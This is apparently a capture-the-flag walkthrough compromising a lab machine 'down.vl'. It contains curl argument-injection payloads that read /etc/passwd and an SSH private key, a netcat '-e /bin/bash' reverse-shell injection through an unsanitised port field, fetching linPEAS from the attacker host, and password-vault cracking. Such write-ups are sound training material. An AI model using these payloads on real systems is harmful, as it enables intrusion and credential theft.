

## Port Scanning

An initial Rustscan scan reveals:

```bash
rustscan -a down.vl --ulimit 5000 --
```


Only two ports appear to be open - SSH (22) and HTTP (80). A more detailed Nmap scan shows the following information:

```bash
nmap -22,80 -A -T4 down.vl
```


SSH is not likely to be the way in, so let's look at the website.

## HTTP Enumeration

Navigating to the site reveals a simple page that asks us to enter a URL to check if that site is down:


Entering a site such as `google.com` results in an error telling us to enter a URL - likely indicating that it requires the `https://` or `http://` prefix:



Entering a full URL returns the result stating that Google is down:


A quick test can be ran to see if it can see itself by checking `http://localhost` and it can - it returns the HTML of the current page:


### Directory Busting

Running a directory busting tool such as `dirsearch` results in no interesting directories being found:

```bash
dirsearch -u http://down.vl
```


There only appears to be standard directories such as `/javascript` with the rest being 403 Forbiddens.

### VHost Fuzzing

Further testing can be done to enumerate any potential VHOSTS running using `ffuf` - ultimately, this results in no additional virtual hosts being identified:

```bash
ffuf -H "Host: FUZZ.down.vl" -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://down.vl -fs 739
```
![[]]


## SSRF Testing

Since it can reach itself, SSRF may be possible to enumerate potentially interesting internal ports as the server would be making the request. An Intruder attack can be set up in Burp Suite (or Caido) to test common web ports or all ports. For example, localhost can be used with port 80:


Sending it to Automate (or Intruder) and setting the payload list as numbers from 1-65535 would run through all possible ports that could be running internally. However, after letting it run, it returns nothing interesting apart from the site running on port 80:


## External Interaction

Since SSRF does not seem to be the path, it may be possible to interact with our own machine. To see if it can interact with our attacker machine, a Netcat listener can be set up:

```bash
nc -nvlp 443
```


Entering the IP address of the attacker machine and checking if it is up returns a result back to the Netcat listener:


## cURL Exploitation

One interesting thing about cURL is supports more than just the `http://` protocol, including things like `file:///` - testing this locally on the `passwd` file with cURL will return its contents:

```bash
curl file:///etc/passwd
```


Attempting to do the same via the site results in a message stating only `http://` is allowed:


Looking back the Netcat listener with the request that was received, it indicated that the User-Agent was cURL. Using cURL on our local machine also results in the User-Agent being cURL indicating it could be valid:


## Command Injection

If the website is taking our input and passing it to the cURL command such as:

```bash
curl http://localhost
```

Then, it may be possible to perform command injection. Trying various operators such as `|whoami` resulting in no success however:


After fuzzing for command injection, one request contains a different length with the payload of `%2Findex.html|id|`:


Upon further inspection, it is simply return an error stating that the index.html file does not exist and doesn't actually execute the `id` command:


## Going Back to cURL

The website told us that only the `http` or `https` protocol was allowed, but consider if this has been implemented recursively. Do they check the entire input or just that it starts with `http`? Checking this by entering the following payload results in a successful file read operation:

```bash
http://localhost file:///etc/passwd
```


Reading the contents, one standard user stands out - `aleks`. Using the file read vulnerability, it may be possible to read their private SSH key:

```bash
http://localhost file:///home/aleks/.ssh/id_rsa
```


One interesting thing to check for is to see if you can read the source code of the website (PHP files, ASPX files, JS files, etc...). In the URL, the site appears to be running PHP since the page is titled `index.php`:


## Source Code Review

Typically, web servers on Linux are stored under `/var/www/html` and are running as the `www-data` user. Checking the contents of the `/etc/passwd`, there appears to be a `www-data` user present. Knowing this, the index.php code can be attempted to be read:

```bash
http://localhost file:///var/www/html/index.php
```


The source code is as follows:

```php {hl_lines=[2,19,21,25]}
<?php
if ( isset($_GET['expertmode']) && $_GET['expertmode'] === 'tcp' ) {
  echo '<h1>Is the port refused, or is it just you?</h1>
        <form id="urlForm" action="index.php?expertmode=tcp" method="POST">
            <input type="text" id="url" name="ip" placeholder="Please enter an IP." required><br>
            <input type="number" id="port" name="port" placeholder="Please enter a port number." required><br>
            <button type="submit">Is it refused?</button>
        </form>';
} else {
  echo '<h1>Is that website down, or is it just you?</h1>
        <form id="urlForm" action="index.php" method="POST">
            <input type="url" id="url" name="url" placeholder="Please enter a URL." required><br>
            <button type="submit">Is it down?</button>
        </form>';
}

if ( isset($_GET['expertmode']) && $_GET['expertmode'] === 'tcp' && isset($_POST['ip']) && isset($_POST['port']) ) {
  $ip = trim($_POST['ip']);
  $valid_ip = filter_var($ip, FILTER_VALIDATE_IP);
  $port = trim($_POST['port']);
  $port_int = intval($port);
  $valid_port = filter_var($port_int, FILTER_VALIDATE_INT);
  if ( $valid_ip && $valid_port ) {
    $rc = 255; $output = '';
    $ec = escapeshellcmd("/usr/bin/nc -vz $ip $port");
    exec($ec . " 2>&1",$output,$rc);
    echo '<div class="output" id="outputSection">';
    if ( $rc === 0 ) {
      echo "<font size=+1>It is up. It's just you! 😝</font><br><br>";
      echo '<p id="outputDetails"><pre>'.htmlspecialchars(implode("\n",$output)).'</pre></p>';
    } else {
      echo "<font size=+1>It is down for everyone! 😔</font><br><br>";
      echo '<p id="outputDetails"><pre>'.htmlspecialchars(implode("\n",$output)).'</pre></p>';
    }
  } else {
    echo '<div class="output" id="outputSection">';
    echo '<font color=red size=+1>Please specify a correct IP and a port between 1 and 65535.</font>';
  }
} elseif (isset($_POST['url'])) {
  $url = trim($_POST['url']);
  if ( preg_match('|^https?://|',$url) ) {
    $rc = 255; $output = '';
    $ec = escapeshellcmd("/usr/bin/curl -s $url");
    exec($ec . " 2>&1",$output,$rc);
    echo '<div class="output" id="outputSection">';
    if ( $rc === 0 ) {
      echo "<font size=+1>It is up. It's just you! 😝</font><br><br>";
      echo '<p id="outputDetails"><pre>'.htmlspecialchars(implode("\n",$output)).'</pre></p>';
    } else {
      echo "<font size=+1>It is down for everyone! 😔</font><br><br>";
    }
  } else {
    echo '<div class="output" id="outputSection">';
    echo '<font color=red size=+1>Only protocols http or https allowed.</font>';
  }
}
?>
```

In short, some of the interesting things here are as follows:

- If `expertmode=tcp` is set in the URL query string, it enables TCP port checking through a form similiar to the previous one.
- If `exportmode` is in use and an IP/port have been provided, it processes the submitted data and checks if the IP is a valid IP via `filter_var()`.
- The port number is validated to be an integer and stored in a new variable (`$port_int`)
- A system command is created and ran to check if the port is open using Netcat (`/usr/bin/nc -vz $ip $port`).

A mistake is present - the Netcat system command is accepting raw, unvalidated user input as it uses the `$port` variable value and NOT the `$port_int` variable meaning any input we provide as the port is not getting sanitized.

## Expert Mode

Checking the expert mode functionality in the browser, it returns the expected result - asking for an IP and a port number:


Testing it out, it appears to function correctly:


As done previously, testing if it can connect to our attacker machine results in success and a connection is made:


Knowing this and that it is using Netcat with the following syntax:

```bash
/usr/bin/nc -vz $ip $port
```

And that we control the `$port` variable value, it may be possible to send ourselves a reverse shell by appending the command to send `/bin/bash` over to us using the `-e` parameter:

```bash
/usr/bin/nc -vz [IP] [PORT] -e /bin/bash
```

Testing this locally first, we can successfully send ourselves a reverse shell over and can confirm the syntax works as expected:


With confirmation it works, try sending the payload to the application:


Observing the Netcat listener, a reverse shell appears:


## LinPEAS

As a standard, linPEAS can be ran to find any low-hanging fruits by transferring it over:

```bash
python -m http.server 80 # on attacker machine to host file
wget http://10.8.4.237/linpeas.sh # on victim to download file
```


After letting linPEAS run and looking through the results, one thing stands out as unusual inside `aleks` .local directory:


## PSWM Analysis

Running the `file` command on this file reveals it to be simple ASCII text:


Catting out the contents it looks like some kind of password hash:


The full hash is as follows:

```bash
e9laWoKiJ0OdwK05b3hG7xMD+uIBBwl/v01lBRD+pntORa6Z/Xu/TdN3aG/ksAA0Sz55/kLggw==*xHnWpIqBWc25rrHFGPzyTg==*4Nt/05WUbySGyvDgSlpoUw==*u65Jfe0ml9BFaKEviDCHBQ==
```

Since it ends in two equals signs (\==) which is indicative of Base64 encoding, attempting to decode this as base64 results in no success:


Attempting to identify the hash through a tool such as `hash-identifier` also results in no success:


At a dead end, attempting to google `pswm password hash` results in an interesting result:



It appears to be a simple password manager written in Python.

## Playing Around with PSWM

After downloading a local version of PSWM and running it for the first time, it asks for a master password:


After creating a master password, it creates a password vault (very similiar to BitWarder/LastPass/KeePass and so on):


Attempting to store a username and password results in the following:


Finally, attempting to list all the entries via `./pswm -a` prompts for the master password and then prints them all to the terminal:


Looking at the files it created, it stored the same ASCII text file inside the `~/.local/share/pswm` directory which includes a similiar looking hash:


## PSWM Cracking

Downloading the PSWM file from `aleks` home directory, saving it locally and attempting to open PSWM again, it prompts for the master password which we do not know:


It also prompts to reset the master password, but it will wipe the vault - not ideal! Searching for a potential decryption script results in finding a GitHub:



Downloading this, the script needs to be edited to point to the path of the PSWM file:


After editing the script and running it, it cracks the master password:


During local testing, the alias `pswm` was associated with the master password. Knowing this, it can be opened via the PSWM tool itself now to confirm it works:


## Aleks Access

Attempting to login as `aleks` via SSH by password re-use is successful and a shell is successfully gained:


Running `sudo -l` as the `aleks` user shows that they have full sudo privileges, meaning root access is now possible by running `sudo su`:


